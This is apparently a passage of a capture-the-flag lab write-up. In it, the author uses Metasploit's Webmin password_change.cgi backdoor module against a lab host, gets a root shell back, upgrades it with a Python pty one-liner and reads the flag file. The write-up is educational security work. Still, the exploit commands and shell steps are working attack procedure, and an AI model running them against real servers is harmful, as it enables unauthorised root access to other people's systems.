 Searching for Webmin exploits inside the Metasploit framework finds us one backdoor exploit from 2019.

```
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
...
```

Using this exploit, we get a partially-interactive shell, which I then upgrade using the Python pty method.

```
msf5 exploit(linux/http/webmin_backdoor) > set lhost 192.102.234.2
lhost => 192.102.234.2
msf5 exploit(linux/http/webmin_backdoor) > set srvhost 192.102.234.2
srvhost => 192.102.234.2
msf5 exploit(linux/http/webmin_backdoor) > run
...

id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
root@victim-1:/webmin/acl# 
```

Using _find_, I quickly discover where our flag is.
```
root@victim-1:/webmin/acl# find / -xdev -name *flag
/root/flag
root@victim-1:/webmin/acl# cat /root/flag
b3be8fa61b04f25ae1b36da42f37269a
```

##  Vulnerable Web Server 
>The target server is running an outdated web server that is vulnerable to a publicly known vulnerability. 
In this challenge, the attacker has to fingerprint the webserver and then exploit it using the appropriate Metasploit module.

For this challenge, I shouldn't need to do any script scanning, since I'll be directly exploiting the server itself.
